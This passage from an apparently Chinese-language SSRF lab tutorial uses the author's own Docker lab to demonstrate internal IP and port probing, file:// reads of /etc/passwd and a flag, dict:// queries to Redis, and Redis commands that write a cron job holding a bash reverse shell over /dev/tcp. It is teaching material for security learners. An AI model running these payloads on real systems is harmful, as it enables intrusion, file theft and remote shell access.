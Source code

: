 继续尝试`http://172.17.0.3`,还有回显内容，说明这个ip也是存在的，并且看回显代码好像是一个`upload-lab`。（没错，就是我前几天练手的upload-lab,嘿嘿）

![UrExqP.png](https://s1.ax1x.com/2020/07/16/UrExqP.png)

也可以`http://127.0.0.1:80`，探测开放端口。

类似，就可以探测内网的情况了。

在上篇已经介绍了一些ssrf的基础知识了。

#### file 协议

我们可以利用	`file`协议读取文件。

输入`file:///etc/passwd`读取用户密码,发现是可以读取,如果是windows系统可查看`file:///C:/Windows/System32/drivers/etc/hosts`

![Urep9g.png](https://s1.ax1x.com/2020/07/16/Urep9g.png)

除此之外，利用这个协议可以读取主机内任意文件。接下来可以读取配置文件和源代码方便进一步的渗透，这里之所以成功实现是因为URL没有经过严格的过滤，所以才可以利用这个协议进行任意文件读取。

比如我在网站根目录放了一个`flag`文件，

`file:///var/www/html/flag`就可读出flag.

![UrNGVO.png](https://s1.ax1x.com/2020/07/16/UrNGVO.png)

#### dict协议

看了很多SSRF 协议中的利用都是结合 Redis 服务的，所以这里就先在ssrf-basics 容器里面安装该服务。

	docker ps
	docker exec -it 容器名 /bin/bash #进入容器
	apt-get install redis-server
	redis-server #开启redis服务

![UrdlMn.png](https://s1.ax1x.com/2020/07/16/UrdlMn.png)

利用dict协议，`dict://127.0.0.1:6379/info`可获取本地`redis`服务配置信息。

![UrdydK.png](https://s1.ax1x.com/2020/07/16/UrdydK.png)

还可以用`dict://127.0.0.1:6379/KEYS *`获取 `redis` 存储的内容

![UrdxLq.png](https://s1.ax1x.com/2020/07/16/UrdxLq.png)

#### Gopher 

内网中的redis存在未授权访问漏洞，当Redis服务以root 权限运行时，利用 Gopher 协议攻击内网中的 Redis，通过写入定时任务可以实现反弹shell

首先先了解一下通常攻击 Redis 的命令，然后转化为 Gopher 可用的协议.

	redis-cli -h $1 flushall
	echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/45952 0>&1\n\n"|redis-cli -h $1 -x set 1
	redis-cli -h $1 config set dir /var/spool/cron/
	redis-cli -h $1 config set dbfilename root
	redis-cli -h $1 save
	//redis-cli查看所有的keys及清空所有的数据
